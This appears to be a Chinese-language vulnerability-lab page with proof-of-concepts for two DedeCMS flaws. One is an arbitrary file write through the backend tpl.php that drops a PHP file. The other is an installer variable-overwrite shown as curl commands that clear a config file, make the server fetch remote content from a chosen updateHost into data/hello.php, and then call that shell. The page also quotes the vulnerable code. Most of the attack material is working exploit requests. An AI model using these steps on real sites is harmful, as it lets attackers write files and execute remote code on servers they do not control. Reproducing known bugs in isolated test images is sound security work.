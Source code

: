 ### 后台 tpl.php 任意文件写入

测试镜像

* src/dedecms/20180109/

参考链接

* [DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)

Poc

```
手动访问
/dede/tpl.php?filename=moonsec.lib.php&action=savetagfile&content=<?php%20phpinfo();?>&token=FORM_TOKEN

即可生成
include/taglib/moonsec.lib.php
```

### insLock 变量覆盖 - 远程 getshell 漏洞

测试镜像

* src/dedecms/20140313/

影响版本

* <= 5.7 SP1 20140313

参考连接

* [Dedecms远程写文件漏洞分析](http://blog.nsfocus.net/dedecms-write-file-vuln/)

Poc

```
# 清空 config_update.php
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php'
&nbsp; <font color="red">[×]</font> 远程获取失败

# 覆盖 updateHost、install_demo_name，实现远程文件下载
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/hello.php&updateHost=http://127.0.0.1/'
&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)

# 测试 shell
curl http://127.0.0.1/data/hello.php
```

关键代码

```
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```

